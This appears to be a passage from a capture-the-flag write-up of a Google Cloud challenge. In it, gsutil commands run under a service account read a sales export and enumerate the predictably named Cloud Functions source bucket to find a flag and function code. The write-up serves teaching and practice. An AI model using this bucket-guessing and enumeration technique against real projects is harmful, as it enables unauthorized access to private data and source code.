 We can't list buckets.
```
└─$ gsutil ls
AccessDeniedException: 403 AccessDenied
<?xml version='1.0' encoding='UTF-8'?><Error><Code>AccessDenied</Code><Message>Access denied.</Message><Details>inventory-storage@gr-prod-2.iam.gserviceaccount.com does not have storage.buckets.list access to the Google Cloud project. Permission 'storage.buckets.list' denied on resource (or it may not exist).</Details></Error>
```

But we can access the `gr-inventory-storage` bucket and see an export of sales data
```
└─$ gsutil ls -r gs://gr-inventory-storage
gs://gr-inventory-storage/sales_export_2025-05-09T20-23-41.348737.json
```
```
└─$ gsutil cp gs://gr-inventory-storage/sales_export_2025-05-09T20-23-41.348737.json -
[
  {
    "salesid": 1,
    "userid": 2,
    "sales_total": 34,
    "sales_date": "2025-04-07 16:23:38"
  }
<SNIP>
```

We can assume that the `export_sales_to_gcs` Cloud Function periodically connects to the database and exports a snapshot to the bucket.


Google (against their own best practice [recommendations](https://cloud.google.com/storage/docs/best-practices#security)) when creating Cloud Functions will also create a bucket to store the function code, and this bucket has a predictable name in the format: `gcf-sources-<project_id>-<region>`. 

We know that the project ID is `461887398221` and the region that resources have been deployed in is `us-central1`. Thus the potential bucket name is:
```
gcf-sources-461887398221-us-central1
```

Recursively listing the contents of this bucket works
```
└─$ gsutil ls -r gs://gcf-sources-461887398221-us-central1                                                                                                                   
gs://gcf-sources-461887398221-us-central1/DO_NOT_DELETE_THE_BUCKET.md
gs://gcf-sources-461887398221-us-central1/export_sales_to_gcs-f12b46c1-2426-47c3-a735-a6bb813da73b/:

gs://gcf-sources-461887398221-us-central1/export_sales_to_gcs-f12b46c1-2426-47c3-a735-a6bb813da73b/version-1/:
gs://gcf-sources-461887398221-us-central1/export_sales_to_gcs-f12b46c1-2426-47c3-a735-a6bb813da73b/version-1/flag.txt
gs://gcf-sources-461887398221-us-central1/export_sales_to_gcs-f12b46c1-2426-47c3-a735-a6bb813da73b/version-1/function-source.zip

gs://gcf-sources-461887398221-us-central1/processCheckout-20c1e62c-12c4-4edb-9173-c3e79e459bec/:

gs://gcf-sources-461887398221-us-central1/processCheckout-20c1e62c-12c4-4edb-9173-c3e79e459bec/version-2/:
gs://gcf-sources-461887398221-us-central1/processCheckout-20c1e62c-12c4-4edb-9173-c3e79e459bec/version-2/function-source.zip

gs://gcf-sources-461887398221-us-central1/processCheckout-20c1e62c-12c4-4edb-9173-c3e79e459bec/version-3/:
gs://gcf-sources-461887398221-us-central1/processCheckout-20c1e62c-12c4-4edb-9173-c3e79e459bec/version-3/function-source.zip
```
